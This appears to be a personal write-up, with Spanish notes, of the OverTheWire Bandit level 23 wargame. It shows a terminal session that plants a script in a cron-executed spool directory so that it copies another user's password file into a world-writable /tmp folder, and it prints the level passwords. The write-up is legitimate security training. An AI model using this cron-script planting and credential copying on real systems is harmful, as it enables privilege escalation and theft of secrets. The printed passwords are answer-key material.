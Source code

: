 
## Goal
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## data access
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solution

```
bandit23@bandit:~$
bandit23@bandit:~$ ls
bandit23@bandit:~$ ls -la /etc/cron.d
total 56
drwxr-xr-x   2 root root  4096 Oct  5 06:20 .
drwxr-xr-x 106 root root 12288 Oct  5 06:20 ..
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit22
-rw-r--r--   1 root root   122 Oct  5 06:19 cronjob_bandit23
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit24
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Oct  5 06:20 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cr
cron.d/               cron.daily/           cron.hourly/          cron.monthly/         crontab               cron.weekly/          cryptsetup-initramfs/ crypttab
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/carpetaConContrasena
bandit23@bandit:~$ cd /tmp/carpetaConContrasena
bandit23@bandit:/tmp/carpetaConContrasena$ ls
bandit23@bandit:/tmp/carpetaConContrasena$ nano obtenerContrasena.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/carpetaConContrasena$ nano obtenerContrasena.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/carpetaConContrasena$ cat obtenerContrasena.sh
#!bin/bash
gitgit
cat /etc/bandit_pass/bandit24 > /tmp/carpetaConContrasena/contrasena.txt

bandit23@bandit:/tmp/carpetaConContrasena$ nano obtenerContrasena.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/carpetaConContrasena$ nano obtenerContrasena.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/carpetaConContrasena$ cat obtenerContrasena.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/carpetaConContrasena/contrasena.txt

bandit23@bandit:/tmp/carpetaConContrasena$ ls
obtenerContrasena.sh
bandit23@bandit:/tmp/carpetaConContrasena$ file obtenerContrasena.sh
obtenerContrasena.sh: Bourne-Again shell script, ASCII text executable
bandit23@bandit:/tmp/carpetaConContrasena$ cp obtenerContrasena.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/carpetaConContrasena$ date
Tue Feb 27 04:26:36 AM UTC 2024
bandit23@bandit:/tmp/carpetaConContrasena$ date
Tue Feb 27 04:26:40 AM UTC 2024
bandit23@bandit:/tmp/carpetaConContrasena$ ls
obtenerContrasena.sh
bandit23@bandit:/tmp/carpetaConContrasena$ date
Tue Feb 27 04:27:12 AM UTC 2024
bandit23@bandit:/tmp/carpetaConContrasena$ ls
obtenerContrasena.sh
bandit23@bandit:/tmp/carpetaConContrasena$ chmod +rx obtenerContrasena.sh
bandit23@bandit:/tmp/carpetaConContrasena$ ls
obtenerContrasena.sh
bandit23@bandit:/tmp/carpetaConContrasena$ cp obtenerContrasena.sh /var/spool/bandit24/foo/obtenerContrasena.sh
bandit23@bandit:/tmp/carpetaConContrasena$ date
Tue Feb 27 04:29:18 AM UTC 2024
bandit23@bandit:/tmp/carpetaConContrasena$ ls
obtenerContrasena.sh
bandit23@bandit:/tmp/carpetaConContrasena$ chmod 777 /tmp/carpetaConContrasena
bandit23@bandit:/tmp/carpetaConContrasena$ cp obtenerContrasena.sh /var/spool/bandit24/foo/obtenerContrasena.sh
bandit23@bandit:/tmp/carpetaConContrasena$ ls
contrasena.txt  obtenerContrasena.sh
bandit23@bandit:/tmp/carpetaConContrasena$ cat contrasena.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/carpetaConContrasena$



```

## notes

`* * * * *`: Esto especifica la programación del cronjob. En este caso, significa "cada minuto de cada hora de cada día de cada mes de cada día de la semana". En otras palabras, este cronjob se ejecutará cada minuto.

`&> /dev/null`: Esto redirige tanto la salida estándar (stdout) como la salida de error (stderr) del script a `/dev/null`, que es un dispositivo especial en Unix/Linux que descarta todos los datos escritos en él. En otras palabras, esto significa que no habrá salida visible del script cuando se ejecute, ya que se está enviando a la "nada".

cundo queremos que algo que fue creado por un usuario en este caso bandit23 pueda tener acceso otro usuario se le tienen que dar permisos.
	se le da permiso a el archivo bash para que cuando lo enviemos al directorio con todos los scripts este lo pueda correr.
	tambien se le da permiso a la carpeta ya que dentro del script se manda a crear el archivo con la contrasena del usuario.

Permisos:

Cada dígito se calcula sumando los valores correspondientes para los permisos:

- `r` (lectura) tiene un valor de 4.
- `w` (escritura) tiene un valor de 2.
- `x` (ejecución) tiene un valor de 1.
-
- En un archivo, los permisos `r` (lectura), `w` (escritura) y `x` (ejecución) tienen significados distintos.
-
- En una carpeta, `r` permite listar el contenido de la carpeta, `w` permite modificar el contenido de la carpeta (crear, eliminar o renombrar archivos dentro de ella) y `x` permite atravesar la carpeta (usar `cd` para entrar a ella).
Script
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/carpetaConContrasena/contrasena.txt

```
## references



